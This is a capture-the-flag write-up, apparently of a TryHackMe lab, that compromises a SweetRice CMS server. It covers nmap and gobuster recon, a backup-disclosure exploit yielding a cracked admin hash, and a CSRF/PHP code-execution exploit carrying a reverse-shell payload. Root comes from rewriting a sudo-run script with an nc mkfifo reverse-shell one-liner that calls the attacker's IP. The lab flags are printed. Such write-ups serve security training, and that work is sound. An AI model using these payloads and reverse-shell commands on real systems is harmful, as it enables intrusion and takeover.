

#security #Linux 

---

Running an `nmap` scan with scripts and version flags:

```bash
└─$ nmap -sC -sV 10.10.223.177  

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-17 13:43 EST
Nmap scan report for 10.10.223.177
Host is up (0.38s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.88 seconds

```

We see that there is `ssh` open and on port `80` there is an `apache` default page. 

Running a directory and file emumeration attack using gobuster:

``` shell
gobuster dir -u http://10.10.223.177/ -w /usr/share/wordlists/dirb/common.txt
```

We get the directory: `/content`.



> It is using CMS SweetRice.

Looking for a vulnerability for SweetRice using `searchsploit`.


We see there is one called `Backup Disclosure`. Use that exploit to see if we can find any credentials that we can use.

>To open the file of that exploit we chose:
``` shell
searchsploit -x 40718
```


We see that we can access the backup files by appending the path: `/inc/mysql_backup`.


Opening the `.sql` file we see SQL statements that create the `mysql` database. Looking more, we see there are stored credentials in there for the admin on line 79:

`manager:42f749ade7f9e195bf475f37a44cafcb`

This password seems like a hash as it is made of 32 characters and each character is a hex; we need to crack it.

> Using [crackstation.net](https://crackstation.net/), we cracked the hash and the password is: `Password123`. It was `md5` hash.

Now we have the admin credentials but no where to login to.

Trying the different exploits found using `searchsploit`, the only one i could get to work was `40700.html` that allows for PHP code execution.

```shell
└─$ searchsploit -p 40700                                             
  Exploit: SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution
      URL: https://www.exploit-db.com/exploits/40700
     Path: /usr/share/exploitdb/exploits/php/webapps/40700.html
    Codes: N/A
 Verified: True
File Type: HTML document, ASCII text

```

Opening that file: 

```HTMl
# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo();
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php

```

We see that it opens an `html` page and has a form called `exploit`. This form has an input that is hidden and inside it is `PHP` code. This input has a name `hacked` that will be used to reference it later. Once this page loads, it automatically submits this form as we can see in the `<body onload>` tag.

The 'hack' we post will be added in the ads section of the admin page as stated in the description at the top of the exploit.

We can see that we can access whatever we uploaded at the end by adding `/inc/ads/<name>` to the URL, which in this case is `hacked`.

#### Exploit:

1. Change the payload above to suit our needs:

```shell
cp /usr/share/exploitdb/exploits/php/webapps/40700.html ./
```
> Move it first to the directory where we are working.

```shell
sudo chmod +777 40700.html
```
> So we can edit and use it comfortably.

* Change `localhost/sweetrice` to `10.10.223.177/content` as this is the directory that has sweetrice on the target machine.
```html
<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.223.177/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
```

* Add the `PHP` code that gives us a reverse shell in the `<textarea>` tag. Used the `php-reverse-shell.php` shell found in `/usr/share/webshells`. Make sure to change the IP address to the attacking machine.
```HTML
<textarea type="hidden" name="adv">
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
... ... ... ...
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string\n";
    }
  }
  ?>   
&lt;/textarea&gt;
</form>
```

2. Upload this payload:

```shell
firefox 40700.html
```
> This opens this HTML file, but it requires us to log in. We have the `manager:Password123` credentials.


Once we are logged in, we don't see our hack posted in the ads portion as stated in the exploit. This might be because we had to log in. Closing the page, and then opening the exploit again:

```shell
firefox 40700.html
```

We see our hack on the website in the ads section:


3. Open the payload and start a listener:

Since we uploaded this payload, we can now navigate to where these are uploaded: `http://localhost/sweetrice/inc/ads/hacked.php` as stated by the exploit.

We change it to:
```URL
http://10.10.223.177/content/inc/ads/hacked.php
```

But we first start a netcat listener on port 1234 to listen for the inbound connection.

```shell
nc -nlvp 1234
```

And after visiting the payload URL, we get the connection in netcat.

> The first flag can be found by going to the `itguy` home directory.
```shell
cd /Home
cd itguy
ls 

Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
cat user.txt

THM{63e5bce9271952aad1113b6f1ac28a07}
```

###### What is the user flag?: `THM{63e5bce9271952aad1113b6f1ac28a07}` .

To find the root flag, we need to become root. We see that the home direcotry for `itguy` has a `mysql_login.txt` file.

```shell
cat mysql_login.txt

rice:randompass
```

We also have the `backup.pl` perl file.

``` bash
$ cat backup.pl                    
#!/usr/bin/perl                                            
system("sh", "/etc/copy.sh");

$ ls -lah backup.pl                                        
-rw-r--r-x 1 root root 47 Nov 29  2019 backup.pl 
```

We see that running this file runs the file `/etc/copy.sh`. We can run that file as well as root.

Viewing this file:
```bash
$ cat /etc/copy.sh                                                                                            
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

$ ls -lah /etc/copy.sh
-rw-r--rwx 1 root root 82 Dec 17 22:49 /etc/copy.sh

```

We see that it is basically spawning a reverse shell and we can run and write to it as root. 
Therefore, we just need to change the IP address in that file, and then run the `backup.pl` file as root to gain access to a root shell.

> Modifying the `copy.sh` file to connect back to our attacking machine:
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.73.192 5554 >/tmp/f" > /etc/copy.sh
```

Now we can run the `backup.pl` script, but first we open a netcat listener on port 5554.

```shell
nc -nlvp 5554
```

Now we can run `backup.pl` as sudo.
```
sudo perl backup.pl
```

We get a connection, and we are root:

```
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

###### What is the root flag?: `THM{6637f41d0177b6f37cb20d775124699f}` .

---
